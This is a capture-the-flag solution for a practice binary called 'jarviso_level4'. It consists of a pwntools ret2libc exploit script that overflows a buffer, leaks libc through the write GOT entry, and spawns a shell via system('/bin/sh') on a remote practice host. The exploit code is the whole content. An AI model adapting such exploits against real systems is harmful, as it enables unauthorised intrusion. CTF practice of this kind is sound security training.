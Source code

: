 ## 40 jarviso_level4

***ret2libc***

```python
from pwn import *
from LibcSearcher import *
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28452)
def dbg():
    gdb.attach(p)
    pause()

main = elf.sym['main']
write_plt = elf.plt['write']
write_got = elf.got['write']

payload = b'a'*0x88+b'b'*0x4+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(0x4)
p.sendline(payload)
write_addr = u32(p.recv(4))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr-libc.dump('write')
log.info('libc_base:'+hex(libc_base))

sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload = b'a'*0x88+b'b'*0x4+p32(sys)+p32(0)+p32(binsh)
p.sendline(payload)
p.interactive()
```

